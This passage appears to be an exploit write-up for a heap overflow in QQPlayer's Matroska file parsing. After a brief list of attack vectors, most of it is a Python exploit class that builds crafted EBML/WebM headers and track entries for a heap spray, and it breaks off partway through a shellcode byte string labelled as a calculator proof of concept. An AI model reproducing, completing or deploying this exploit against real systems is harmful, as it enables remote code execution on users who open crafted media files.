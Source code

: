 ### Memory Corruption Analysis

The vulnerability provides several attack vectors:


- **Heap Allocation Control**: Attacker controls allocation sizes
- **Memory Copy Operations**: Unrestricted copying to heap buffers
- **Track Count Manipulation**: Excessive track counts cause overflow
- **Pointer Corruption**: Heap metadata corruption enables arbitrary writes

## Exploitation Strategy

### Heap Spray Implementation

The exploitation strategy leverages **Matroska multi-track abuse** to achieve controlled heap layout:

```python
#!/usr/bin/env python
# QQPlayer Matroska Heap Overflow Exploit

import struct

class MatroskaExploit:
    def __init__(self):
        self.ebml_header = self.create_ebml_header()
        self.segment_header = self.create_segment_header()
        
    def create_ebml_header(self):
        """Generate valid EBML header for WebM file"""
        ebml = b"\x1A\x45\xDF\xA3"  # EBML magic
        ebml += b"\x9F"             # Header size
        ebml += b"\x42\x86\x81\x01"  # EBML version
        ebml += b"\x42\xF7\x81\x01"  # EBML read version
        ebml += b"\x42\xF2\x81\x04"  # EBML max ID length
        ebml += b"\x42\xF3\x81\x08"  # EBML max size length
        ebml += b"\x42\x82\x88webm"  # Doc type: "webm"
        ebml += b"\x42\x87\x81\x02"  # Doc type version
        ebml += b"\x42\x85\x81\x02"  # Doc type read version
        return ebml
    
    def create_segment_header(self):
        """Generate Segment element header"""
        segment = b"\x18\x53\x80\x67"  # Segment ID
        segment += b"\x01\xFF\xFF\xFF\xFF\xFF\xFF\xFF"  # Unknown size
        return segment
    
    def create_track_entry(self, track_id, track_type, codec_data):
        """Create individual track entry for heap spray"""
        track = b"\xAE"  # TrackEntry ID
        track += self.encode_size(len(codec_data) + 20)  # Track size
        track += b"\xD7\x81" + struct.pack('B', track_id)  # Track number
        track += b"\x83\x81" + struct.pack('B', track_type)  # Track type
        track += b"\x63\xA2" + self.encode_size(len(codec_data))  # CodecPrivate size
        track += codec_data  # Controlled codec data
        return track
    
    def create_heap_spray_payload(self):
        """Generate heap spray using multiple tracks"""
        
        # Heap spray shellcode (calculator for PoC)
        shellcode = (
            b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
            b"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
```